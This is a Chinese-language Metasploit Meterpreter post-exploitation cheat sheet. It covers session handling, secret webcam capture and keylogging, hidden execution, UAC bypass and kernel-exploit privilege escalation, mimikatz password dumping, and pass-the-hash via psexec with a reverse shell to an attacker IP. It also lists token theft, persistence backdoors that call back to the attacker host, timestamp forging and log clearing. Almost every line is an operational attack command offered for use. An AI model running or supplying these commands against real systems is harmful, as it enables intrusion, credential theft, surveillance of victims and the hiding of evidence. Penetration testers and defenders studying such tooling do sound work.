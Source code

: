  ##### 交互
  	CTRL+Z    把session放入后台
	当攻击成功后会返回会话，使用session -l命令列出当前获取到的会话
	>session -l
	使用
	>sessions -i id 来进入一个会话进行交互
	>sessions -k id 杀死一个会话
	>background 将当前会话放置后台
	>sessions -x检查心跳
	>sessions -u [ID] cmdshell升级meterpreter shell
	>reboot / shutdown   重启/关机
 ##### 命令
  	>idletime 查看目标机闲置时间
	>shell 进入目标cmdshell
	>uictl [enable/disable] [keyboard/mouse/all]  开启或禁止键盘/鼠标
	>uictl disable mouse  禁用鼠标
	>uictl disable keyboard  禁用键盘
	>webcam_list   查看摄像头
	>webcam_snap   通过摄像头拍照
	>webcam_stream  通过摄像头开启视频
	>execute -H -i -f cmd.exe 执行cmd.exe，-H不可见，-i交互 
	>execute -H -m -d calc.exe -f wce.exe -a "-o 1.txt" 隐藏执行
	>execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w   从内存执行
	>ps 查看进程
	>migrate pid     迁移进程
	>kill pid   #杀死进程
	>screenshot  截图
	>run 执行模块，2下tab列出
	>run post/windows/capture/keylog_recorder 键盘记录
	>run packetrecorder -li 列出接口
	>run packetrecorder -i 1  监控接口
 ##### 文件操作
	>pwd 查看当前目录
	>ls 列出当前目录文件
	>search -f *pass*        搜索文件
	>cat c:\\passwd.txt   查看文件内容
	>upload /tmp/pwn.txt C:\\1.txt   上传文件
	>download c:\\passwd.txt /tmp/  下载文件
	>edit c:\\1.txt  编辑或创建文件
	>rm C:\\1.txt 删除文件
	>mkdir folder  创建文件夹
	>rmdir folder  删除文件夹
	>lcd /tmp   #攻击者主机 切换目录
	>timestomp -v C://2.txt   #查看时间戳
	>timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
 ##### 提权
	>getuid 查看权限
	>getsystem 提权
	bypassuac
	>use exploit/windows/local/bypassuac
	>use exploit/windows/local/bypassuac_injection
	>use windows/local/bypassuac_vbs
	>use windows/local/ask
	内核漏洞提权
	>run post/windows/gather/enum_patches
	>use exploit/windows/local/ms13_053_schlamperei
	>set SESSION 2
	>exploit
 ##### 后渗透&权限维持
 ###### 查看信息ip和路由
	ipconfig/ifconfig
	netstat –ano
	route
 ###### 端口转发
	portfwd add -l 4444 -p 3389 -r 127.0.0.1 目标机的3389转发到本地4444
 ###### 添加路由及进行扫描
	run autoroute –h #查看帮助
	run autoroute -s 192.168.159.0/24  #添加到目标环境网络
	run autoroute –p  #查看添加的路由
	run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24
	run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389
 ###### Socks4a代理
	msf> use auxiliary/server/socks4a 
	msf > set srvhost 127.0.0.1
	msf > set srvport 1080
	msf > run
	vi /etc/proxychains.conf 添加 socks4 127.0.0.1 1080
 ###### mimikatz抓密码
	load mimikatz
	wdigest
	mimikatz_command -f samdump::hashes  #执行mimikatz命令
	mimikatz_command -f sekurlsa::searchPasswords
 ###### 开启RDP
	run getgui –h #查看帮助
	run getgui -e #开启远程桌面
	run getgui -u lltest2 -p 123456   #添加用户
	run getgui -f 6661 –e   #3389端口转发到6661

	run post/windows/manage/enable_rdp 开启rdp
	run post/windows/manage/enable_rdp USERNAME=www2 PASSWORD=123456  添加用户
	run post/windows/manage/enable_rdp FORWARD=true LPORT=4444 端口转发
 ###### sniffer抓包
	use sniffer
	sniffer_interfaces   #查看网卡
	sniffer_start 2   #选择网卡 开始抓包
	sniffer_stats 2   #查看状态
	sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
	sniffer_stop 2   #停止抓包
 ###### incognito假冒令牌
	use incognito
	list_tokens -u
	impersonate_token 'NT AUTHORITY\SYSTEM'  假冒SYSTEM token
	或者impersonate_token NT\ AUTHORITY\\SYSTEM #不加单引号 需使用\\
	execute -f cmd.exe -i –t    # -t 使用假冒的token 执行
	或者直接shell
	rev2self   #返回原始token
 ###### steal_token窃取
	steal_token <PID>  窃取令牌
	drop_token 删除窃取的token
 ###### hash
	获取hash >run post/windows/gather/smart_hashdump 需system权限
	PSExec哈希传递
	msf > use exploit/windows/smb/psexec
	msf > set payload windows/meterpreter/reverse_tcp
	msf > set LHOST 192.168.159.134
	msf > set LPORT 443
	msf > set RHOST 192.168.159.144
	msf >set SMBUser Administrator
	msf >set SMBPass aad3b4*****04ee:5b5f00*****c424c
	msf >set SMBDomain  WORKGROUP   #域用户需要设置SMBDomain
	msf >exploit
 ###### persistence启动项后门
	run persistence -X -i 5 -p 6661 -r 192.168.159.134
	-X 开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
	连接
	use exploit/multi/handler
 ###### metsvc
	run metsvc –A 安装后门
	连接
	use exploit/multi/handler
	端口31337
 ##### 清理日志
	>clearav 
